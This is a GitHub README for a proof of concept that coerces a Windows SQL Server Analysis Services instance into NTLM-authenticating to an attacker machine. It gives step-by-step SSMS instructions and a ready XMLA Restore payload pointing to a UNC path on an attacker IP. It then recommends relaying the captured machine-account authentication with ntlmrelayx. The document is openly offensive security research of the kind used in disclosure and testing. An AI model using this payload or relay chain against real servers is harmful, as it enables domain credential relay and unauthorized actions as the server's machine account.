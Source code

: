 # MSSQL Analysis Services - Coerced Authentication

![](./.github/banner.png)

A technique to coerce a Windows SQL Server to authenticate on an arbitrary machine.

This proof of concept is co-authored by :
 - Podalirius: <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"> <img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a> <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
 - Worty: <a href="https://twitter.com/intent/follow?screen_name=_Worty" title="Follow"><img src="https://img.shields.io/twitter/follow/_Worty?label=Worty&style=social"></a>


## Proof of concept

In order to trigger the authentification as the local machine account, we need to connect to the remote SQL Server using user credentials:

![](./.github/sql_analysis_connect.png)

Then we will select "Restore" to restore the database from a given file.

![](./.github/restore_db.png)

To generate the XMLA file, put the path to a random file in the "Backup File" form, and click Ok.

![](./.github/accessed_xml_script.png)

Then change the path to a random file and replace it with a UNC path to your attacker server (for example `\\192.168.128\SYSVOL\db.abf`)

![](./.github/unc_path_in_xml_file.png)

Proof of concept XMLA query ([poc.xmla](./poc.xmla)):

```xml
<Restore xmlns="http://schemas.microsoft.com/analysisservices/2003/engine">
    <File>\\192.168.2.51\SYSVOL\db.abf</File>
    <DatabaseName>\\192.168.2.51\SYSVOL\db.abf</DatabaseName>
    <DbStorageLocation xmlns="http://schemas.microsoft.com/analysisservices/2008/engine/100/100">\\192.168.2.51\SYSVOL\db.abf</DbStorageLocation>
</Restore>
```

And we get an authentication from the local machine account of the SQL Server:

![](./.github/responder_auth.png)

## Relaying for the win

Once we got the authentification, we can relay it with `ntlmrelayx` to perform many actions on behalf of the computer `SQL01$`.

This is cool, but it is complicated to trigger this coerced authentication from a Linux attacking machine as we do not have access to the SQL Server Management Studio (SSMS). 

## References
 - https://docs.microsoft.com/en-us/sql/database-engine/install-windows/install-sql-server?view=sql-server-ver15
 - https://social.technet.microsoft.com/wiki/contents/articles/13106.sql-server-frequently-used-ports.aspx
 - https://docs.microsoft.com/en-us/answers/questions/274512/connecting-to-azure-analysis-services-using-python.html
